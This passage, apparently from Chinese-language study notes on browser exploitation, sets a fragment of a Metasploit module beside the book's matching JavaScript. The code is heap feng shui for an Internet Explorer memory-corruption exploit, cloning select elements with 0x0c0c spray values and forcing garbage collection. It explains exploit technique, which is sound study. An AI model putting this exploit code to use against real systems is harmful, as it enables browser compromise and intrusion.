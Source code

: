 ```
        #`{`select_element`}`
        var clones = new Array(1000);
  
        function feng_shui() `{`
          heap.gc();
  
          var i = 0;
          while (i &lt; 1000) `{`
            clones[i] = selob.cloneNode(true)
            i = i + 1;
          `}`
  
          var j = 0;
          while (j &lt; 1000) `{`
            delete clones[j];
            CollectGarbage();
            j  = j + 2;
          `}`
        `}`
  
        feng_shui();
  
        #`{`js_trigger`}`
      JS
  
      trigger = heaplib(trigger, `{`:noobfu =&gt; true`}`)
      return trigger
    end
```

上面msf中的代码对应书中的如下代码：



```
var selob=document.createElement("select")
    selob.w0=
    selob.w1=unescape("%u0c0c %u0c0c")
    selob.w2=
    selob.w3=
    selob.w4=
    selob.w5=
    ...
    ...
    selob.w63=
    var clones=new Array(1000)
    
    function feng_shui()`{`
    var i=0
    while (i&lt;1000)`{`
    clones[i]=selob.cloneNode(true)
    i=i+1
    `}`
    var j=0
    while(j&lt;1000)`{`
    delete clones[j]
    CollectGarbage()
    j=j+2
    `}`
    `}`
```
